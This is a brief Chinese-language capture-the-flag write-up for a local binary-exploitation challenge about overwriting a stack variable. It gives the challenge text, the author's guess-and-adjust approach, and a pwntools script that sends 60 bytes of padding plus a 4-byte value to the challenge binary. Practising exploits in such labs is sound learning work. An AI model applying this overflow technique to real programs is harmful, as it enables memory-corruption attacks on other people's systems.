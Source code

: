 # 挑战简介
```
从安全角度来看，此挑战与其“简单”版本相同，但有以下变化：

与简单版本不同，它不会为您提供有用的调试输出。您必须使用调试器恢复此信息。
不提供源代码。您需要对二进制文件进行逆向工程，但请记住，挑战在概念上与简单版本相同，因此在逆向过程中将简单版本的源代码作为辅助参考会很有帮助！
一些随机化是不同的。缓冲区可能具有不同的长度，偏移量可能有所不同，等等。您需要从二进制文件中对此信息进行逆向工程！
```

# 思路
这题必然要用逆向工程，但是，逆向那里找了一圈，找到了变量，但实在不知道变量地址怎么设置的/(ㄒoㄒ)/~~  

有取巧的方法，做破防了可以试试，不推荐

根据大致猜测lose的位置，再进行精确的调整，就出来了

```
#!/usr/bin/python
from pwn import *
import struct

context(os='linux',arch='AMD64',log_level='debug')
p = process('/challenge/binary-exploitation-var-control')

p.recvuntil('Send your payload (up to 4096 bytes)!\n')
p.send(b'a' * 60 + b'\xAC\xE3\xA2\x72')
p.recvall()
```
